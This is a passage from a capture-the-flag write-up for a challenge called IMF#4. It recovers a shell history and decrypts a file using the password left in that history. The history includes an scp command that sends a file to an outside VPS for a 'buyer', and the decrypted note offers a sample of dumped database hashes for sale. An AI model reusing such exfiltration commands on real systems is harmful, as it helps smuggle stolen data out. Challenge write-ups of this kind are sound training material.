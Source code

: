 zip randomfile.zip randomfile.txt
vps=38.243.09.46
scp randomfile.txt dave@$vps:~/toSendToBuyer.txt
openssl aes-256-cbc -salt -k Sup3r53cr3tP4ssw0rd -in randomfile.txt -out randomfile.txt.enc
ls
rm randomfile.txt randomfile.zip
```

We can see that it is using openssl to encrypt the file with AES-256-CBC, and the password that derive the AES key is shown 

Then we can just decrypt the encrypted file

https://stackoverflow.com/questions/16056135/how-to-use-openssl-to-encrypt-decrypt-files

```
dave@dev:~$ openssl aes-256-cbc -d -salt -k Sup3r53cr3tP4ssw0rd -in randomfile.txt.enc -out dec.txt
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
```

Then we can read the decrypted file and found the flag for IMF#4 :

```
dave@dev:~$ cat dec.txt 
Here is a sample of the hashes I dumped from the database, in good faith.

Pay up, and I'll send you the rest. Once you have you order, we never speak again. Glad doing business with you.

louis       afba3f2f6a6124ff952cdf8fa6d639ea
samantha    b92af75ee8a69de838e1d2eefc380bfb
joey        dfa3e5ccebaabe11bbde4b7f4de5bbd4
karl        219f9ad3f2efb75afcae7fab39fcd1aa
steve       f9df3a4453f27b8bfdd39ee96aca7bac
john        3d82b3ce57d8edfe2eaba8eb8eeebb3f
michael     84cae12ee0242ae4abb1e5fbaab40952
george      e58eddfd7a8d670ef5187c05b16b95a1
sarah       fdf4f0e12e7d4cd083abb61a4b7232d9
lucas       60d2fccbc0be51dc8dcd182b0b6a806f
sylvia      e4282d7ee69cab77bb41ec0e02598bad

Hero{4_l1ttle_h1st0ry_l3ss0n_4_u}
```